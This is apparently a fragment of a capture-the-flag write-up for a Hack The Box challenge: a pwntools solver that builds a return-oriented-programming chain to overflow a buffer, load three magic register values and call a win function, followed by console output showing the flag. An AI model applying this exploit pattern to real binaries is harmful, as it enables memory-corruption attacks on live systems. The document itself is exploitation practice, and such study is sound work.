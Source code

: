 ```python
r.timeout = 0.1

e   = ELF(fname)
rop = ROP(e)

payload = flat({
  0x28: p64(rop.find_gadget(['pop rdi'])[0]) + p64(0xdeadbeef) + 
        p64(rop.find_gadget(['pop rsi'])[0]) + p64(0xdeadbabe) +
        p64(rop.find_gadget(['pop rdx'])[0]) + p64(0xdead1337) +
        p64(rop.find_gadget(['ret'])[0])     + p64(e.sym.fill_ammo)
})

r.sendline(payload)

r.recvuntil('at: ')
print(f'Flag --> {r.recvline().strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0 1337

Flag --> HTB{b00m_b00m_r0ck3t_2_th3_m00n}
```

